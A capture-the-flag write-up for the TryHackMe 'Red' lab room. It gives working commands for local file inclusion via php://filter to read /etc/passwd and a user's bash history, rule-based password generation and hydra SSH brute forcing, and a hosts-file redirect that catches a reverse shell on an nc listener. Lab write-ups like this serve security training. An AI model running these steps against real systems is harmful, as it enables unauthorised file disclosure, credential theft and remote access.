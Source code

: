 # Red-TryHackMe

So the target is `10.10.60.5`\
Let's just use nmap to identify open ports `nmap -sV -sC -sT 10.10.60.5`

![](screenshots/Screenshot_2025-01-30_23_51_41.png)

There is port 80 and 22 open let's browse prot 80 

![](screenshots/Screenshot_2025-01-30_23_53_59.png)

As we can see that we have the parameter option with home.html set on it so let's try for LFI

no results we got nothing except we are being redirected.

![](screenshots/Screenshot_2025-01-30_23_57_16.png)

let's see the contents of `index.php` by using phpwrapper

command: `curl http://10.10.60.5/index.php?page=php://filter/convert.base64-encode/resource=index.php -o index.php`

![](screenshots/Screenshot_2025-01-31_00_11_31.png)

same way we can access `/etc/passwd` 

commands:
```bash
curl http://10.10.60.5/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
```
```bash
curl http://10.10.60.5/index.php?page=php://filter/resource=/etc/passwd
```

![](screenshots/Screenshot_2025-01-31_00_14_40.png)

Then we looked into `.bash_history` and got this

commands:
```bash
curl http://10.10.60.5/index.php?page=php://filter/resource=/home/blue/.bash_history
```
then

```bash
curl http://10.10.60.5/index.php?page=php://filter/resource=/home/blue/.reminder
```

![](screenshots/Screenshot_2025-01-31_00_17_39.png)

by following the same method we made a passwordlist and bruteforce login using ssh user `blue`
steps :
First get the password hint
```bash
curl http://10.10.60.5/index.php?page=php://filter/resource=/home/blue/.reminder
```
store it in `.reminder`
```bash
echo 'sup3r_p@s$w0rd!' > .reminder
```
generate password using hashcat
```bash
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt 
```
bruteforce login using hydra with the generate password list.
```bash
hydra -l blue -P passlist.txt 10.10.60.5 ssh -t5
```

![](screenshots/Screenshot_2025-01-31_00_25_59.png)

with that we got our first flag 

![](screenshots/Screenshot_2025-01-31_00_34_49.png)

after that let's use linpeas to find any process to gain privilege.

commands:
```bash
/usr/bin/echo "10.2.17.94 redrules.thm" | tee -a /etc/hosts
```

listener on my system 
```bash
nc -lvnp 9001
```
and got the shell and flag.

![](screenshots/Screenshot_2025-01-31_00_57_48.png)

